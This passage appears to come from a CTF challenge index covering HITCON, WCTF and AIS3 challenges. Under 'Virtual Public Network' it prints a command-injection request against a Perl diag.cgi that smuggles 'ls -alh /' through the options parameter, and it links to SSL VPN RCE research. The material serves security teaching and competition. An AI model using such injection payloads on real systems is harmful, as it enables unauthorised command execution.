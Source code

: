 * [HITCON 2015 Quals](#babyfirst)  
    * [Babyfirst](#babyfirst)
    * [nanana](#nanana)
    * [Giraffe's Coffee](#giraffes-coffee)
    * [lalala](#lalala)
    * [Use-After-FLEE](#use-after-flee)
    
* [HITCON 2014 Quals](#pushincat)
    * [PUSHIN CAT](#pushincat)
    * [PY4H4SHER](#py4h4sher)
    * [LEENODE](#leenode)
    
* [WCTF 2016](#blackbox)  
    * [BlackBox](#blackbox)

* [AIS3 Final 2015 Final](#sqlpwn)
    * [SQLPWN](#sqlpwn)
    
<br>

## **Virtual Public Network**
  
Difficulty: **★☆**  
Solved: **81 / 1147**  
Tag:   **WhiteBox**, **Perl**, **Command Injection**  

#### Source Code

* [Source](hitcon-ctf-2019/virtual-public-network/)  

#### Solution

* Refer my blog and Black Hat 2019 USA slides for details 
    * [Attacking SSL VPN - Part 3: The Golden Pulse Secure SSL VPN RCE Chain, with Twitter as Case Study!](https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html)
    * [Infiltrating Corporate Intranet Like NSA: Pre-auth RCE on Leading SSL VPNs](https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf)  

```
http://13.231.137.9/cgi-bin/diag.cgi
?options=-r@a="ls -alh /",system@a%23 2>tmp/orange.thtml <
&tpl=orange
```


#### Write Ups

* TBD


## **Bounty Pl33z**
  
Difficulty: **★★★☆**  
Solved: **30 / 1147**  
Tag:   **XSS**
